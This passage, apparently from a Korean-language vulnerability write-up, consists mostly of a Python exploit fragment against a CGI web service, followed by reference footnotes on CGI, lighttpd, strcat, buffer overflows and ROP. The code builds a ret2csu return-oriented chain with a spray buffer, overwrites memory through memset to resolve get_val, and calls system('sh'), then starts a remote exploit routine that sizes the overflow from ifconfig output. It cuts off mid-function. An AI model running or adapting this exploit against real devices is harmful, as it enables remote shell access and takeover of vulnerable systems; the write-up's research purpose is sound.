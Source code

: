 ```python
    return payload

def chain(func, r0, r1, r2):
    c = ''
    c += purl32(0x00000000) # r4
    c += purl32(func)       # [r5] => r3
    c += purl32(0x00000000) # r6
    c += purl32(r0)         # r7 => r0
    c += purl32(r1)         # r8 => r1
    c += purl32(r2)         # r9 => r2
    c += purl32(0x00000000) # r10
    c += purl32(csu_2)      # pc
    return c

def spray():

    # If we already got spray buffer, use it.
    global spray_fix
    if len(spray_fix):
        return spray_fix

    # Return-to-csu.
    rop = purl32(csu_1)

    # Set bss:0x20 to get_val address.
    for i in range(4):
        addr = e.bss(0x20+i)
        value = e.symbols['get_val'] >> (i*8) & 0xff
        rop += chain(e.got['memset'], addr, value, 1)

    # get_val("t", bss:0x24, 2): returns "sh"
    rop += chain(e.bss(0x20), str_t, e.bss(0x24), 2) # get_val
    
    # system("sh")
    rop += chain(e.got['system'], e.bss(0x24), 0, 0)

    # Forming spray.
    spray = 'a' * (SPRAY_LEN % EADDR_LEN) # padd
    spray += purl32(sled_1) * (((SPRAY_LEN-len(rop)) // EADDR_LEN)-3)
    spray += purl32(sled_2) + purl32(sled_1) + "AAAA"
    spray += rop

    # Fix the spray buffer.
    spray_fix = spray

    return spray

def exploit(ip, command):

    # ifconfig's output length is not fixed.
    # So, we need to get the buffer first to calculate
    # the overflow size.
    log.info("Getting buffer.")
    packet = form_packet(ip, form_param())
    p = remote(ip, 80)
    p.send(packet)
    r = p.recv().decode()
    r = r[r.find("- ifconfig"):r.find("\n\n\n")+2]
    dummy_len = 0x204 - len(r)
    p.close()

    log.info("Exploit.")
    stack  = 0xbefe1db4+4
```

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))